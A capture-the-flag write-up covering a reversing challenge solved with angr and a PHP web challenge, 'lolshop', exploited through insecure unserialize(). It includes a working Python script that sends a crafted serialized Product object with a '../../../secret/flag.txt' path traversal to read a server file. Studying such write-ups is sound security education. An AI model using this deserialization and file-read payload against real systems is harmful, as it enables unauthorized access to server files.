 ## keycheck_baby
After a rapid analysis we can see that it's a classic input guessing challenge. We can open it with Ghidra, and with a simple Python script we easily get the first part of the flag: flag{y0u_d4_qu33n_

Here it comes the first problem: even with Ghidra, the second input check seems unsolvable. 

For this reason I dropped the idea of understanding the code, and moved on angr to solve the challenge with symbolic execution.

With a basic script we can retrieve the flag, that is: **flag{y0u_d4_qu33n_0f_cr4ck1ngz}**

## lolshop
This is a serialization challenge, and we are given the link of the website and also the source, and the hint that the flag is in /secret/flag.txt file path. 

First of all, let's explore the code and make a plan: we can see that there is only one method that unserializes an object, located in State.php called restore($token).

```php
    static function restore($token) {
        return unserialize(gzuncompress(base64_decode($token)));
    }
```

After that, we can notice that the only path we can see in all these files is the one representing the products' image: if we are able to modify this, we may obtain the flag as the image of one of the products. This is located in Products.php.

```php
    function getPicture() {
        $path = '/var/www/assets/' . $this->picture;
        $data = base64_encode(file_get_contents($path));
        return $data;
    }

    function getPrice() {
        return $this->price;
    }

    function toDict() {
        return array(
            "id" => $this->id,
            "name" => $this->name,
            "description" => $this->description,
            "picture" => $this->getPicture(),
            "price" => $this->price
        );
    }
```

The idea is:
1. we want to trigger the toDict() function of a product
2. we search for every call the restore() method in the source code
3. after finding the right restore() call, we try to craft a malicius payload

We can notice that in the cart.php page we have:
```php
...
} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}
```
so we can see that we call the restore(), then we call the toDict() on the unserialized state: COOL

What if we try to unserialize a Product object, instead of a State object?

We will have this situation: our object will be unserialized without errors, because it's a valid one; then the $state->toDict() instruction will be executed, but now the method refers to Product.toDict(), so the getPicture() will be executed with a payload that WE control.

The final script is:
```python
import requests
import json

url = 'http://jinblack.it:3006/api/cart.php'

#myobj = {'state': 'eJxNkE1rxCAQhvNTxNMu5JDRfOqphz0slA00217LRA0I+xHUPYQl/72atrAHX/SZd16c6UUl6BAwGCqYeHoBpaDZBjJvvLf3G5W9aKLp7yX4ZoNk+0WZ1VR6UcdObeoCedexqhwB2gJh7BreFTCBwrZRNWOT4qCha0dWaSzNWJsGYZqAa5wg5QB/ib7h1SQY2bIs6cbYS9lc0V6+UWsXQap28RPH03D4OJPj6dyT2d31QwVPdlbnJKXlRBuvnJ1DDMjJbFV4uEhnZ5XZk6+398/DQHZQ5IQi0qjjmFSpqMVeUrn+j79tSaELVKIA8bQCZDrr+gPGZmUA'}
myobj = {'state': 'eJxNjl0KwjAQhHuWPUCa1KqwOYS9QthEXdCkJFsQxLub/jwE5mH4dmbYG14Rppz8QgJ4xm9BYxC6A3XswTIabSs/NTy6d4AKK/OcVjfo5uxDocyzcIpHKrrn6sylSc1MsuRtZxgRlOp3lUA5SH9/uYeSj2y9se1lprD/pbX9/QGaazsG'}
'''
$xxx = new Product(10,'dio','nah', '../../../secret/flag.txt', 1000);
echo base64_encode(gzcompress(serialize($xxx)));
'''
x = requests.post(url, data = myobj)

print(x.text)
```

After sending the request we get this output:

We know that the flag is encoded in base64, so with a simple conversion we obtain: **actf{welcome_to_the_new_web_0836eef79166b5dc8b}
**
